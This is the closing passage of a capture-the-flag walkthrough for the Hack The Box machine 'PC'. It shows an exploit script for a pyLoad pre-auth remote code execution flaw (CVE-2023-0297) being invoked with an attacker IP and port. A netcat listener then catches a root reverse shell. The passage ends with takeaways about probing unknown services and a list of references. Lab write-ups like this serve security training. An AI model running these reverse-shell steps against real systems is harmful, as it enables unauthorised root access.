 ```
$ python3 exploit.py 
usage: exploit.py [-h] -t TARGET [-c COMMAND] [-I ATK_IP] [-P ATK_PORT] [-x PROXY]
exploit.py: error: the following arguments are required: -t/--target\
$ python3 exploit.py -t localhost:1234 -I 10.10.14.5 -P 9001
[SUCCESS] Running reverse shell. Check your listener!
```

And with that we get our reverse shell as root.

```
$ nc -nlvp 9001
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.129.251.25.
Ncat: Connection from 10.129.251.25:59232.
bash: cannot set terminal process group (1036): Inappropriate ioctl for device
bash: no job control in this shell
root@pc:~/.pyload/data# whoami
whoami
root
root@pc:~/.pyload/data# uname -a
uname -a
Linux pc 5.4.0-148-generic #165-Ubuntu SMP Tue Apr 18 08:53:12 UTC 2023 x86_64 x86_64 x86_64 GNU/Linux
```

And with that we can get the root flag.

## Key Points to Take Away

1. If you encounter an unknown service, try `nc` or `curl` to connect to it.
2. Look for services that are usually used by the port in question.
3. Try different tools to connect with unknown services.

## References

1. [PC](https://app.hackthebox.com/machines/543)
2. [gRPC Official Documentation](https://grpc.io/docs/what-is-grpc/introduction/)
3. [Tools to Interact With gRPC](https://medium.com/@EdgePress/how-to-interact-with-and-debug-a-grpc-server-c4bc30ddeb0b)
4. [grpcurl](https://github.com/fullstorydev/grpcurl)
5. [grpcui](https://github.com/fullstorydev/grpcui)
6. [PyLoad Pre-auth RCE](https://huntr.dev/bounties/3fd606f7-83e1-4265-b083-2e1889a05e65/)
7. [CVE-2023-0297 - GitHub](https://github.com/JacobEbben/CVE-2023-0297.git)